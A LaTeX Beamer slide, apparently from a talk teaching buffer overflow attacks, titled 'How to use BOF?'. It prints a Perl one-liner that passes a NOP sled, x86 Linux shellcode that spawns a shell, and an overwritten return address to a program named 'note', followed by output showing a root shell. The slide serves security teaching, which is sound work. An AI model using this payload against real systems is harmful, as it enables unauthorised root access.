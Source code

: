 \begin{frame}{How to use BOF?}
	\begin{figure}
		\centering
		\includegraphics[height=.7\textheight]{imgs/whoami.png}
		\caption{BOF whoami: root}
		\label{fig:whoami}
	\end{figure}
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note `perl -e 'printf("\x90" x 153 .
    "\x31\xdb\x31\xc9\x31\xc0\xb0\xcb\xcd\x80\x31\xc0\x50
     \x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50
     \x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\x31\xdb\xb0\x01
     \xcd\x80" . "\x90" x 22 . "\xef\xbe\xad\xde")'`
			sh-3.1# whoami
			root
		\end{verbatim}
	\end{block}
\end{frame}

